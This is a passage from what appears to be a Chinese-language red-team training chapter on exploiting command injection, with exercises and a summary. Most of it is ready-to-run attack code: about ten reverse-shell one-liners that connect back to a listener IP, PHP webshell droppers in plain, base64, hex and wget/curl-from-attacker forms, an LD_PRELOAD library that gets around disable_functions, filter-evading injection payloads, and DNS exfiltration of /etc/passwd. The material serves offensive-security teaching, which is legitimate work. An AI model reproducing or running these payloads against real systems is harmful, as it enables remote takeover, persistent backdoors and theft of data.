bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

**解释：**
- `bash -i`：启动交互式bash
- `>& /dev/tcp/IP/PORT`：把标准输出和错误输出重定向到TCP连接
- `0>&1`：把标准输入也重定向到TCP连接

`/dev/tcp/` 是bash的一个特殊设备，
bash会自动建立TCP连接。

::: warning 注意
这个方法只有bash支持，
sh、dash等其他shell不支持。
如果目标默认shell不是bash，
可能需要先切换到bash。
:::

### 6.3 方法2：Netcat反弹（经典）

```bash
# 传统nc（有 -e 参数）
nc -e /bin/bash 192.168.1.100 4444

# 没有 -e 参数的nc
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.1.100 4444 > /tmp/f
```

第一种最简单，
但不是所有版本的nc都有 `-e` 参数。
第二种用命名管道，
不需要 `-e` 参数，
兼容性更好。

### 6.4 方法3：Python反弹（万能）

Python几乎是Linux标配，
所以Python反弹Shell非常常用。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

**Python3版本：**
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

这个很长，
但很实用，
建议大家背下来。

### 6.5 方法4：PHP反弹

```php
php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
```

或者更复杂一点的：
```php
php -r '$sock=fsockopen("192.168.1.100",4444);$proc=proc_open("/bin/bash -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

PHP反弹在Web环境中很常用。

### 6.6 方法5：Perl反弹

```perl
perl -e 'use Socket;$i="192.168.1.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

老系统可能有Perl。

### 6.7 方法6：Ruby反弹

```ruby
ruby -rsocket -e 'f=TCPSocket.open("192.168.1.100",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 6.8 方法7：Java反弹

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Java环境中可以用。

### 6.9 方法8：Telnet反弹

```bash
# 方法1
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.100 4444 0/tmp/p

# 方法2
telnet 192.168.1.100 80 | /bin/bash | telnet 192.168.1.100 443
```

### 6.10 方法9：Socat反弹

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.100:4444
```

Socat功能很强大，
反弹的Shell质量也很高，
支持交互、支持pty等。
但缺点是不是系统自带的，
需要安装。

### 6.11 方法10：AWK反弹

```awk
awk 'BEGIN{s="/inet/tcp/0/192.168.1.100/4444";while(1){do{printf "$ "|&s; s|&getline c;if(c){while((c|&getline)>0)print $0|&s;close(c)}}while(c!="exit");close(s)}}'
```

AWK几乎所有Linux都有，
是个备选方案。

### 6.12 反弹Shell方法汇总表

| 方法 | 依赖 | 推荐指数 | 备注 |
|------|------|----------|------|
| Bash | bash | ⭐⭐⭐⭐⭐ | 最常用，bash特有 |
| Netcat | nc | ⭐⭐⭐⭐ | 经典，不一定有-e |
| Python | python | ⭐⭐⭐⭐⭐ | 万能，几乎都有 |
| PHP | php | ⭐⭐⭐⭐ | Web环境常用 |
| Perl | perl | ⭐⭐⭐ | 老系统可能有 |
| Ruby | ruby | ⭐⭐ | 较少见 |
| Java | java | ⭐⭐ | Java环境用 |
| Telnet | telnet | ⭐⭐ | 备选 |
| Socat | socat | ⭐⭐⭐ | Shell质量高，但非自带 |
| AWK | awk | ⭐⭐ | 几乎都有，但复杂 |

::: tip 实战建议
实际测试时，
按这个顺序试：
1. Bash反弹（最简单）
2. Netcat反弹（经典）
3. Python反弹（万能）
4. PHP反弹（Web环境）
5. 其他...

如果是Windows，
常用的有：
- nc反弹
- powershell反弹
- msfvenom生成的exe
:::

---

## 📝 写Shell的各种姿势

除了反弹Shell，
另一个常用的操作就是写WebShell，
把一句话木马写到Web目录里，
这样后续可以用蚁剑/哥斯拉等工具连接。

### 7.1 Echo直接写

最简单的方法，
用echo命令直接写：

```bash
# 直接写
echo '<?php @eval($_POST["cmd"]);?>' > /var/www/html/shell.php

# 或者用单引号双引号嵌套
echo "<?php @eval(\$_POST['cmd']);?>" > /var/www/html/shell.php
# 注意：双引号里的$需要转义
```

简单直接，
但如果有特殊字符过滤就不行了。

### 7.2 Base64编码写

如果过滤了特殊字符，
可以用base64编码：

```bash
# 先base64编码
# <?php @eval($_POST["cmd"]);?>
# base64编码后：PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7Pz4=

# 解码写入
echo 'PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7Pz4=' | base64 -d > /var/www/html/shell.php
```

这个方法很常用，
因为base64只有字母数字和+/=，
不容易被过滤。

### 7.3 Hex编码写

```bash
# hex编码
echo '3c3f70687020406576616c28245f504f53545b22636d64225d293b3f3e' | xxd -r -p > /var/www/html/shell.php
```

Hex更"干净"，
只有字母数字，
但内容更长。

### 7.4 用Wget/Curl下载

如果目标能出网，
直接从你的服务器下载Shell：

```bash
# wget下载
wget http://攻击者IP/shell.php -O /var/www/html/shell.php

# curl下载
curl http://攻击者IP/shell.php -o /var/www/html/shell.php
```

这个方法最简单，
但需要目标能出网访问你的服务器。

### 7.5 用Python写

```python
python -c "open('/var/www/html/shell.php','w').write('<?php @eval(\$_POST[\"cmd\"]);?>')"
```

### 7.6 用printf写

```bash
printf '<?php @eval($_POST["cmd"]);?>' > /var/www/html/shell.php
```

printf比echo更可控一些。

### 7.7 重定向组合写

如果过滤了很多东西，
还可以用重定向的方式一个字符一个字符地写：

```bash
# 用>>追加的方式
echo '<?php' > shell.php
echo '@eval($_POST["cmd"]);' >> shell.php
echo '?>' >> shell.php
```

或者用更骚的操作：
```bash
# 用通配符和其他技巧
# ...（根据环境灵活调整）
```

### 7.8 写Shell方法汇总

| 方法 | 优点 | 缺点 | 适用场景 |
|------|------|------|----------|
| echo直接写 | 简单直接 | 特殊字符容易被过滤 | 过滤不严的环境 |
| base64编码 | 绕过特殊字符过滤 | 需要base64命令 | 大部分环境 |
| hex编码 | 只有字母数字 | 内容较长 | 过滤严格的环境 |
| wget/curl下载 | 最简单，Shell随便写 | 需要出网 | 能出网的环境 |
| Python写 | 灵活，Python几乎都有 | 命令长 | Python环境 |
| printf写 | 更可控 | 和echo类似 | 通用 |

---

## 🚫 绕过disable_functions

在PHP环境中，
经常会遇到 `disable_functions`，
也就是PHP禁用了一些危险函数，
比如 `system()`、`exec()`、`eval()` 等。
这时候有代码执行也执行不了系统命令，
怎么办呢？

**图27-7 绕过disable_functions方法分类图**



### 8.1 什么是disable_functions？

`disable_functions` 是php.ini中的一个配置项，
用来禁用某些函数。
比如：
```ini
disable_functions = system,exec,shell_exec,passthru,eval,assert
```

这样这些函数就不能用了。

但是！
`disable_functions` 不是万能的，
有很多方法可以绕过。

### 8.2 绕过方法1：用没被禁用的函数

PHP中能执行命令的函数很多，
管理员可能只禁了几个常见的，
找找有没有漏网之鱼。

**可能被漏掉的命令执行函数：**
- `pcntl_exec()`
- `popen()`
- `proc_open()`
- `passthru()`（可能被禁，也可能没禁）
- `com()`（Windows下）
- `shell_exec()`

**代码执行函数：**
- `eval()`（这个通常会被禁）
- `assert()`（PHP 7.x版本）
- `call_user_func()`
- `call_user_func_array()`
- `create_function()`（老版本）
- 动态函数 `$func()`

思路就是：
找一个没被禁用的，
能执行命令或者能执行代码的函数。

### 8.3 绕过方法2：LD_PRELOAD劫持

这是一个很经典的绕过方法，
通过环境变量 `LD_PRELOAD` 来劫持系统函数。

**原理：**
1. 上传一个自定义的.so共享库
2. 设置环境变量 `LD_PRELOAD` 指向这个.so
3. 启动新进程时，会先加载这个.so
4. .so中的函数会覆盖系统函数
5. 从而执行任意代码

**具体步骤：**
1. 编写一个c文件，比如 `hack.c`：
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__((constructor)) void l3yx() {
    if (getenv("CMD")) {
        system(getenv("CMD"));
    }
}
```

2. 编译成.so：
```bash
gcc -shared -fPIC hack.c -o hack.so
```

3. PHP中设置环境变量并启动新进程：
```php
<?php
putenv("LD_PRELOAD=/tmp/hack.so");
putenv("CMD=whoami > /tmp/result.txt");
mail("a@a.com", "", "", "", "");
// 或者用error_log、imagepng等会启动新进程的函数
?>
```

原理就是 `mail()` 函数会调用sendmail，
启动新进程，
而新进程会加载 `LD_PRELOAD` 指定的.so，
从而执行我们的代码。

### 8.4 绕过方法3：ImageMagick漏洞

如果服务器装了ImageMagick（图像处理），
而且版本比较老，
可能有漏洞可以利用。

比如：
- ImageMagick 命令执行漏洞（CVE-2016-3714）
- 各种ImageMagick的解析漏洞

PHP的 `imagick` 扩展就调用了ImageMagick，
如果disable_functions禁了system等，
但没禁imagick，
就可以试试这个。

### 8.5 绕过方法4：PCRE Backtrack 漏洞

利用PHP的preg函数的回溯漏洞，
可以绕过disable_functions。

这个比较复杂，
是利用PHP的内存破坏漏洞，
需要特定版本。

### 8.6 绕过方法5：JSON Serializer UAF

PHP的json序列化反序列化的UAF漏洞，
也可以用来绕过disable_functions。

同样是内存破坏漏洞，
需要特定版本。

### 8.7 绕过方法6：FPM/FastCGI

如果是PHP-FPM的环境，
还有一些针对FPM的绕过方法。

### 8.8 工具推荐：disable_functions bypass工具

有很多现成的工具可以用：

- **webshell下的绕过**：蚁剑的绕过插件、哥斯拉的绕过插件
- **专用工具**：
  - https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
  - https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass
  - 等等...

::: tip 实战建议
实际遇到disable_functions时：
1. 先看看哪些函数没被禁用（phpinfo查看）
2. 试试有没有漏网之鱼
3. 用蚁剑/哥斯拉的绕过插件试试
4. 根据PHP版本找对应的exp
5. 没有条件就创造条件（上传.so等）
:::

---

## 📂 绕过open_basedir

除了 `disable_functions`，
PHP中还有一个常见的安全配置：
`open_basedir`。

### 9.1 什么是open_basedir？

`open_basedir` 是PHP的一个配置，
用来限制PHP只能访问哪些目录。

比如：
```ini
open_basedir = /var/www/html:/tmp
```
这样PHP就只能访问 `/var/www/html` 和 `/tmp` 目录下的文件，
其他目录（比如 `/etc`、`/root` 等）都访问不了。

### 9.2 绕过方法

#### 方法1：symlink绕过（符号链接）

如果Web目录在open_basedir里，
但你能创建符号链接，
可以试试：

```php
<?php
// 创建一个指向 /etc/passwd 的符号链接
symlink("/etc/passwd", "link");
// 然后读取link
// 不过这个在新版本PHP中已经被修复了
```

#### 方法2：利用DirectoryIterator / GlobIterator等

某些PHP的类可能不受open_basedir限制，
可以列目录。

#### 方法3：利用realpath等函数的绕过

一些特定版本的PHP有绕过open_basedir的方法。

#### 方法4：命令执行绕过

如果你有命令执行权限，
那open_basedir就形同虚设了，
因为系统命令不受PHP的open_basedir限制。

```bash
# 直接用系统命令读
cat /etc/passwd
```

所以，
**有命令执行就不用管open_basedir了**，
直接用系统命令访问就行。

### 9.3 绕过工具

同样，
蚁剑、哥斯拉等工具
也有绕过open_basedir的插件，
可以直接用。

---

## 🐍 各种语言的命令执行

我们一直讲的都是PHP的命令执行，
但现实中Web应用的语言多种多样，
Python、Java、Node.js...
我们也得了解一下。

### 10.1 Python中的命令执行

Python中能执行系统命令的函数/模块：

#### os模块
```python
import os

# 执行命令，返回状态码
os.system("whoami")

# 执行命令，返回输出
os.popen("whoami").read()
```

#### subprocess模块（推荐）
```python
import subprocess

# 执行命令
subprocess.call("whoami", shell=True)

# 获取输出
output = subprocess.check_output("whoami", shell=True)
print(output.decode())

# 更灵活的方式
p = subprocess.Popen("whoami", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
out, err = p.communicate()
print(out.decode())
```

#### eval/exec（代码执行）
```python
# eval执行表达式
eval("1+1")

# exec执行代码
exec("print('hello')")
```

### 10.2 Java中的命令执行

Java中执行系统命令：

```java
// 方式1：Runtime
Runtime.getRuntime().exec("whoami");

// 方式2：ProcessBuilder
ProcessBuilder pb = new ProcessBuilder("whoami");
Process p = pb.start();
```

#### 命令注入场景
Java中最常见的命令注入场景：
- 调用 `Runtime.getRuntime().exec()`
- 调用 `ProcessBuilder`
- 某些第三方库的命令执行

#### Java反序列化
Java中最出名的漏洞就是反序列化漏洞，
很多反序列化漏洞最终都能导致命令执行。
比如：
- Commons Collections 反序列化
- Fastjson 反序列化
- Shiro 反序列化
- Log4j2 漏洞（JNDI注入）

这些我们后面会专门讲。

### 10.3 Node.js中的命令执行

Node.js中执行系统命令：

```javascript
const { exec } = require('child_process');

// 执行命令
exec('whoami', (error, stdout, stderr) => {
    console.log(stdout);
});
```

其他方式：
- `child_process.exec()`
- `child_process.execSync()`
- `child_process.execFile()`
- `child_process.spawn()`
- `child_process.fork()`

#### 代码执行
- `eval()`
- `new Function()`
- `vm` 模块

### 10.4 各语言命令执行对比

| 语言 | 命令执行函数 | 代码执行函数 |
|------|-------------|-------------|
| **PHP** | system、exec、shell_exec、passthru、popen、proc_open | eval、assert、call_user_func、$func() |
| **Python** | os.system、os.popen、subprocess | eval、exec |
| **Java** | Runtime.exec、ProcessBuilder | 反射、ScriptEngine |
| **Node.js** | child_process.exec、spawn | eval、new Function |

---

## 📚 案例讲解

讲了这么多理论，
我们来看几个真实的案例。

### 案例1：某系统命令注入绕过实战

**场景：**
某网站有一个traceroute功能，
用户输入IP，服务器执行traceroute。
后端做了一些过滤，
过滤了 `;`、`&&`、`||`、空格等。

**过滤分析：**
- 过滤了 `;`、`&&`、`||`、`|`
- 过滤了空格
- 过滤了一些关键字

**绕过思路：**
1. 空格用 `${IFS}` 代替
2. 命令分隔符用 `%0a`（换行符）代替
3. 关键字用变量拼接绕过

**最终Payload：**
```
ip=127.0.0.1%0aa=w%0ab=hoami%0a$a$b
```

**解释：**
- `%0a` 是换行符，用来分隔命令
- `a=w` 和 `b=hoami` 定义变量
- `$a$b` 拼接起来就是 `whoami`
- 空格用...（这里不需要空格因为变量就是命令名）

这样就成功绕过了过滤，
执行了 `whoami` 命令。

---

### 案例2：反弹Shell大全与实战演示

**场景：**
你通过命令注入拿到了一个Linux服务器的命令执行权限，
想反弹一个Shell回来。

**实战步骤：**

1. **先在自己的机器上监听：**
```bash
nc -lvvp 4444
```

2. **先试试最简单的Bash反弹：**
```bash
bash -i >& /dev/tcp/1.1.1.1/4444 0>&1
```
（把1.1.1.1换成你自己的IP）

3. **如果不行，试试Python：**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

4. **如果还不行，试试nc：**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 4444 >/tmp/f
```

5. **还不行？试试PHP：**
```bash
php -r '$sock=fsockopen("1.1.1.1",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
```

一般来说，
这几种方法总有一个能成功。
如果都不行，
就看看目标上装了什么，
有什么用什么。

---

### 案例3：DNSLog带外数据实战

**场景：**
某系统存在命令注入，
但是没有回显，
而且目标不能直接HTTP出网，
但是DNS可以。

**实战步骤：**

1. **打开DNSLog平台，获取子域名：**
   比如得到 `test.dnslog.cn`

2. **先验证漏洞是否存在：**
```bash
ping -c 1 test.test.dnslog.cn
```
然后去DNSLog平台刷新，
看到记录了，说明命令确实执行了。

3. **获取当前用户：**
```bash
ping -c 1 $(whoami).test.dnslog.cn
```
DNSLog里就能看到用户名。

4. **获取/etc/passwd：**
```bash
ping -c 1 $(cat /etc/passwd | base64 | head -c 50).test.dnslog.cn
```
（因为数据太长，需要分段，这里只演示前50字符）

5. **分段获取完整数据：**
   写个脚本，分段发送，
   最后拼接起来base64解码。

这样，
即使没有回显，
即使不能HTTP出网，
只要DNS能通，
我们就能把数据带出来。

---

### 案例4：绕过disable_functions拿Shell

**场景：**
你通过文件上传拿到了一个WebShell，
但是发现 `system()`、`exec()` 等函数都被 `disable_functions` 禁用了，
执行不了系统命令。

**绕过思路：**

1. **先看phpinfo，确认disable_functions禁了哪些**
2. **看看有没有漏掉的函数**
   - pcntl_exec？
   - popen/proc_open？
   - COM（Windows）？
3. **试试蚁剑/哥斯拉的绕过插件**
4. **试试LD_PRELOAD劫持**
   - 上传编译好的.so
   - 用mail/error_log等触发
5. **根据PHP版本找对应的exp**
   - PHP 7.x的各种内存破坏漏洞
   - 比如 GC UAF、Backtrack 等

**实际案例：**
某目标PHP 7.2，
禁了大部分命令执行函数，
但是没禁 `putenv()` 和 `mail()`。
用LD_PRELOAD劫持的方法，
上传了一个自定义的.so，
通过 `mail()` 函数触发，
成功执行了系统命令。

---

### 案例5：从命令执行到提权

**场景：**
你通过命令注入拿到了一个Web服务器的权限，
但是是 `www-data` 低权限用户，
想提权到root。

**提权思路（简要）：**

1. **信息收集：**
```bash
# 系统信息
uname -a
cat /etc/issue
cat /etc/*release

# 当前用户信息
id
whoami

# sudo配置
sudo -l

# SUID文件
find / -perm -u=s -type f 2>/dev/null

# 计划任务
crontab -l
cat /etc/crontab
ls -la /etc/cron.d/

# 查看内核版本，找内核漏洞
```

2. **常见提权方式：**
   - 内核漏洞提权（如脏牛等）
   - SUID文件提权
   - 定时任务提权
   - sudo配置不当提权
   - 环境变量劫持
   - 通配符提权
   - 数据库提权（MySQL UDF等）
   - ...

3. **具体操作：**
   - 根据收集到的信息，判断可能的提权方式
   - 上传对应的exp
   - 执行提权
   - 拿到root权限

（提权是个大话题，我们后面会专门讲）

---

## ✏️ 课后习题

学完了本章，
来做几道题巩固一下吧！

### 选择题

1. 以下哪个**不能**用来绕过空格过滤？
   - A. `${IFS}`
   - B. `%09`（Tab）
   - C. `&&`
   - D. `<`（输入重定向）

2. 无回显命令执行时，以下哪种方法最常用？
   - A. Sleep盲注
   - B. DNSLog外带
   - C. HTTP外带
   - D. 写文件

3. 以下哪个符号可以当作命令分隔符来绕过 `;` 的过滤？
   - A. `%0a`（换行符）
   - B. `%20`（空格）
   - C. `#`（注释）
   - D. `$`（变量）

4. 以下哪种反弹Shell的方法最"万能"（大部分系统都有）？
   - A. Bash反弹
   - B. Python反弹
   - C. Ruby反弹
   - D. Socat反弹

5. 关于 `disable_functions`，以下哪种说法是**错误**的？
   - A. 可以用LD_PRELOAD劫持绕过
   - B. 只要有代码执行就一定能绕过
   - C. 可以找没被禁用的危险函数
   - D. 它禁用的是PHP函数，不是系统命令

### 填空题

1. Linux中，可以用 _______ 变量来代替空格，它的全称是 Internal Field Separator。

2. 无回显命令执行的常用利用方法有：_______、_______、_______、_______。

3. DNSLog外带数据时，常用 _______ 编码来避免特殊字符。

4. 写出至少3种反弹Shell的方法：_______、_______、_______。

5. 绕过disable_functions的经典方法是 _______ 劫持，通过设置环境变量来实现。

### 简答题

1. 列举至少5种绕过空格过滤的方法。

2. 什么是DNSLog？它的原理是什么？为什么能用来外带数据？

3. 什么是反弹Shell？为什么要反弹Shell？列举至少3种反弹Shell的方法。

4. 什么是disable_functions？有哪些绕过方法？

5. 无回显命令执行有哪些利用方式？各有什么优缺点？

### 实操题

1. 在DVWA的Command Injection的medium和high级别中，尝试绕过过滤执行命令。

2. 搭建一个DNSLog环境（或者用在线平台），练习用DNSLog外带数据。

3. 练习至少3种反弹Shell的方法（可以在自己的两台虚拟机上练习）。

4. 尝试用base64编码的方式写一个一句话木马。

5. 找一个有disable_functions的环境，尝试用蚁剑的绕过插件绕过。

---

## 📝 本章小结

这一章我们学习了命令执行的绕过与利用，
内容很多，
也很重要，
让我们来总结一下：

### 绕过技巧
- **空格绕过**：`${IFS}`、`%09`、`<`、`{}`、URL编码等
- **关键字绕过**：变量拼接、反转、base64编码、通配符、自增变量等
- **命令分隔符绕过**：`%0a`（换行）、反引号、`$()`、`()`、`{}`等

### 无回显利用
- **Sleep盲注**：简单但慢
- **HTTP外带**：快但需要HTTP出网
- **DNS外带**：最常用，大部分环境能用
- **写文件**：Web服务器可用

### DNSLog
- 原理：DNS查询记录 + 子域名携带数据
- 用途：无回显漏洞的数据外带
- 平台：dnslog.cn、ceye.io等
- 编码：base64、hex等

### 反弹Shell（10种）
- Bash反弹、Netcat反弹、Python反弹、PHP反弹
- Perl、Ruby、Java、Telnet、Socat、AWK
- 最常用：Bash、Python、Netcat、PHP

### 写Shell
- echo直接写、base64编码写、hex编码写
- wget/curl下载、Python写、printf写

### 绕过disable_functions
- 找没被禁用的函数
- LD_PRELOAD劫持
- ImageMagick等第三方漏洞
- 内存破坏漏洞（特定版本）
- 工具：蚁剑/哥斯拉插件

### 绕过open_basedir
- 有命令执行就不用管（系统命令不受限制）
- 各种PHP绕过方法（特定版本）

### 各语言命令执行
- PHP：system、exec、eval、assert等
- Python：os.system、subprocess、eval、exec
- Java：Runtime.exec、ProcessBuilder
- Node.js：child_process.exec

下一章我们会做一个总结回顾，
然后进入下一个模块：文件包含漏洞。
敬请期待！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day031-advanced-命令执行基础)
- [➡️ 下一章：---](/redteam/day033-advanced-命令执行模块总结)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
